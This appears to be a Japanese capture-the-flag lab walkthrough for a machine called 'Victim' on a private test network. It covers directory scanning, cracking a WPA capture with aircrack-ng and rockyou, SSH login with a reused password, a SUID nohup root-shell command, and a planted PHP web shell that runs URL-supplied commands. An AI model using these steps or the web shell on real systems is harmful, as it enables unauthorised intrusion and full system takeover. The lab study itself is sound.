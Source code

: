 ## Victim
- 事前準備
  - rockyou.txt.gzファイルを解凍する
  - gunzip /usr/share/wordlists/rockyou.txt.gz 
- ポートスキャンまでは同じ
  - host:192.168.56.102, target:192.168.56.106
  - ポート22, 80, 8080, 8999, 9000が開いている
- ブラウザで80,8080,8999の各サイトを見てみる
- gobusterで80, 8080を見る   
  - `gobuster dir -u 192.168.56.106 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`
  - -u オプションは、リンクの次から順に検索していく
  - 8080ポートでもやってみる、この場合はhttp://$IP:8080
- pcapファイルを取得
  - pcapファイルを取得する方法は２つある
  1. 8999ポートのブラウザにアクセスしてWPA-01.capファイルをダウンロードする
  2. `wget http://192.168.56.106:8999/WPA-01.cap`
- wiresharkを起動して中身をチェックする
  - 左上のFILEからダウンロードしたファイルをopenする
  - 虫メガネでSSIDを検索する
  - SSID,暗号化のバージョンを調べる。適当にTagの中身を見ているとSSIDがわかる
  - 暗号化が弱いと
- 暗号解読
  - aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt
  - パスワードがわかる
- sshで接続する
  - ユーザとwifiのパスワードをsshでも使い回していると仮定してssh接続をする
  - OSを特定する
  - 個人で使える管理者権限を調べる
### 攻略1(SUIDファイルでルートフラグを取得)
- SUIDファイルを特定する
  - `find / -perm -4000 -ls 2> /dev/null`
- nohupコマンドでルートシェルを奪う
  - `nohup /bin/sh -p -c "sh -p < $(tty) > $(tty) 2> $(tty)"`
  - -pは実ユーザと実際のユーザが異なる時につけるオプション
  - $(tty)はドルパーレンと呼ぶ、単に先にコマンドを実行しているだけ
- rootを取得
  - `cd /root`
  - `ls`
  - `cat flag.txt`

### 攻略2(Webシェルでルートフラグを取得)
- 書き込み可能なディレクトリを検索する
  - `find / -type d -writable 2> /dev/null`
- フルパーミッションのディレクトリを探す
  - ~`finc / -perm -0777 -type d -ls 2> /dev/null | grep -Ev`~ 
- `/var/www/bolt/public/files` このパスに注目する
- ブラウザでチェックする `192.168.56.106:9000` 何が表示される?
- `cd /var/www/bolt/public/files`　に移動する      
- shell.phpファイルを作る `vim shell.php`
```php
<?php
    system($_GET['cmd']);
?>
```
- ブラウザのパスでコマンドを入力することができる
  - 次のコマンドは`cat /root/flag.txt`をすることができる 
  - `view-source:http://192.168.56.106:9000/files/shell.php?cmd=cat /root/flag.txt`
